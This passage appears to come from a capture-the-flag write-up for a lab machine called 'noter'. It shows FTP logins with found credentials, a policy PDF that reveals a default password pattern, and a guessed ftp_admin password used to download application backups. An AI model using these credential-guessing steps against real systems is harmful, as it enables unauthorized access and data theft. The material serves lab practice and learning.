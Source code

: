 Login to the FTP using found credentials. Within we find the file `policy.pdf`, download the file and review it.

```bash
➜  noter ftp 10.10.11.160
Connected to 10.10.11.160.
220 (vsFTPd 3.0.3)
Name (10.10.11.160:void): blue 
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 1002     1002         4096 May 02 23:05 files
-rw-r--r--    1 1002     1002        12569 Dec 24 20:59 policy.pdf
226 Directory send OK.
ftp> mget *
mget policy.pdf? y
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for policy.pdf (12569 bytes).
226 Transfer complete.
12569 bytes received in 0.00 secs (9.2992 MB/s)
```

The pdf is a password policy, and within we find the line;
*"Default user-password generated by the application is in the format of "username@site_name!" (This applies to all your applications)"*

We can try if this applies to `ftp_admin:ftp_admin@Noter!` as well.

```bash
➜  noter ftp 10.10.11.160                                                                           
Connected to 10.10.11.160.
220 (vsFTPd 3.0.3)
Name (10.10.11.160:void): ftp_admin
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 1003     1003        25559 Nov 01  2021 app_backup_1635803546.zip
-rw-r--r--    1 1003     1003        26298 Dec 01 05:52 app_backup_1638395546.zip
226 Directory send OK.
ftp> mget *
mget app_backup_1635803546.zip? y
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for app_backup_1635803546.zip (25559 bytes).
226 Transfer complete.
25559 bytes received in 0.03 secs (783.7460 kB/s)
mget app_backup_1638395546.zip? y
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for app_backup_1638395546.zip (26298 bytes).
226 Transfer complete.
26298 bytes received in 0.03 secs (811.6058 kB/s)
```
